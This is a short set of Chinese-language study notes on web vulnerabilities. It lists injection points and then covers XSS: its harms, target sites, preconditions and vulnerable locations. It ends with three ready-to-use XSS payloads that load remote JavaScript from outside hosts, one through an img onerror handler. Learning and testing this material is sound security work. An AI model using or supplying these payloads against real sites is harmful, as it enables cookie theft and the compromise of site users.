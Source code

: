 **注入位置：**

```markdown
1. GET
2. POST
3. X-Forwarded-For
4. Cookie
5. User-Agent
```

### XSS

**危害：**

```markdown
1. 盗取管理员cookie
2. xss蠕虫
3. 挂马
4. 网站重定向
5. 修改网页内容
```

**攻击场景：**

```markdown
1. 各类SNS
2. 邮件系统
3. BBS
4. 微博
5. 主要是一些大型社交网站
```

**前提条件：**

```markdown
1. 知道从哪里输入，输出的数据又在哪显示
2. 反射型xss
	1. 一般是url参数中的值能回显到页面且url参数过滤不严
3. 存储型xss
	1. 可以提交内容
	2. 提交的内容可被管理员或其他用户看到
	3. 提交的内容未被过滤或过滤不严
```

**漏洞位置：**

```markdown
1. 在标签<div>xss test</div>
2. 在属性内<input type="text" name="content" value="xss test" />
3. 可以使用 "/>xss test来测试
```

**常见payload：**

```markdown
1. <script src=http://b.ioio.pub/xss/probe.js'></script>
2. <img src="http://a.com/xss/1.js"/>
3. <img src =x onerror="s=createElement('script');body.appendChild(s);s.src='http://a.com/xss/probe.js'";>
```
